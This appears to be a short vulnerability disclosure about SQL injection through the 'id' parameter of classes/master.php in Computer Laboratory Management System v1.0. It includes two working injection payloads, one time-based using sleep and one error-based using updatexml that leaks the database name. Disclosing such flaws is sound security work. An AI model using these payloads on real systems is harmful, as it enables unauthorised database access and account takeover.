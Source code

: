 BUG_Author: K1ngd0m3

Affected version: Computer Laboratory Management System v1.0

Vendor: https://www.sourcecodester.com/

Software: https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html

Vulnerability File: classes/master.php

Description: computer Laboratory Management System v1.0 is vulnerable to sql injection via /classes/master.php The parameter “id” has not been handled correctly. Hackers can exploit this vulnerability to manipulate the system’s administrator account and gain full control over other user accounts’ information. 
![image](https://github.com/adminininin/blob/assets/136336674/d8a901af-17e2-430f-b0a0-236fcc9e5b40)
As shown in the screenshot, at line 163th of the source code, the parameter “id” has not been properly filtered, resulting in a SQL injection vulnerability.


POST parameter ‘id’ exists SQL injection vulnerability
![image](https://github.com/adminininin/blob/assets/136336674/f75faa88-8eef-488f-9f56-5a5b4f515a26)

Payload1:id=4'and+sleep(10)# 
![image](https://github.com/adminininin/blob/assets/136336674/1d3b2fd8-012e-4648-b04a-9c482f5e3feb)


you can see the server sleep ten seconds

Payload2:id=4'or(updatexml(0,concat(0x5e,database()),0)) 
![image](https://github.com/adminininin/blob/assets/136336674/06c9dd7b-4cf5-4704-9ac4-59735dba39af)

you can see the db_name
